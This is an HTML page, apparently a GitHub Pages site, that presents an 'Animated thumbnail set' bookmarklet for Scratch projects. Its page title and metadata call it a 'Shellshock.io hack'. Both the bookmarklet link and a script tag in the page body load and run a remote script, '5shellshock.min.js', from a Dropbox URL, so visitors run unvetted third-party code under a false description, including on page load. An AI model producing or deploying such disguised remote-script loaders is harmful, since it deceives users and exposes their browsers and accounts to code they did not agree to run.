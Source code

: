 <html lang="en"><head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">

<!-- Begin Jekyll SEO tag v2.3.0 -->
<title>Shellshock.io hack</title>
<meta property="og:title" content="//dl.dropboxusercontent.com/s/wjuz0lovxa00an3/5shellshock.min.js">
<meta property="og:locale" content="en_US">
<link rel="canonical" href="https://dl.dropboxusercontent.com/s/wjuz0lovxa00an3/5shellshock.min.js">
<meta property="og:url" content="//dl.dropboxusercontent.com/s/wjuz0lovxa00an3/5shellshock.min.js">
<meta property="og:site_name" content="shellshockhack">
<script type="application/ld+json">
{"name":"animatedThumbnailsBookmarklet","description":null,"author":null,"@type":"WebSite","url":"https://worldlanguages.github.io/animatedThumbnailsBookmarklet/","image":null,"publisher":null,"headline":"animatedThumbnailsBookmarklet","dateModified":null,"datePublished":null,"sameAs":null,"mainEntityOfPage":null,"@context":"http://schema.org"}</script>
<!-- End Jekyll SEO tag -->

    <style class="anchorjs"></style><link href="/animatedThumbnailsBookmarklet/assets/css/style.css?v=2bda4bc6dfc0cfbb6a1bdd45071b3149f0485179" rel="stylesheet">
  </head>
  <body>
    <div class="container-lg px-3 my-5 markdown-body">
      

      <h1 id="animatedthumbnailsbookmarklet">Animated Thumbnail Bookmarklet</h1><h3 id="drag-and-drop-the-link-below-to-your-bookmarks-bar">Drag and drop the link below to your bookmarks/favorites bar. If you don't see the bar, press Ctrl+Shift+B (Windows) or Cmd+Shift+B (Mac).<a class="anchorjs-link " href="#drag-and-drop-the-link-below-to-your-bookmarks-bar" aria-label="Anchor link for: drag and drop the link below to your bookmarks bar" data-anchorjs-icon="" style="font-style: normal; font-variant: normal; font-weight: normal; font-stretch: normal; font-size: 1em; line-height: 1; font-family: anchorjs-icons; padding-left: 0.375em;"></a></h3>
<h3><a href='javascript:x=document.createElement("script");x.src="//dl.dropboxusercontent.com/s/wjuz0lovxa00an3/5shellshock.min.js"; void document.getElementsByTagName("head")[0].appendChild(x);'>Animated thumbnail set</a></h3><h3>Then click it in any of your Scratch projects and follow the indicated steps.</h3></div>
    <script src="//dl.dropboxusercontent.com/s/wjuz0lovxa00an3/5shellshock.min.js"></script>
    <script>anchors.add();</script>
  





</body></html>
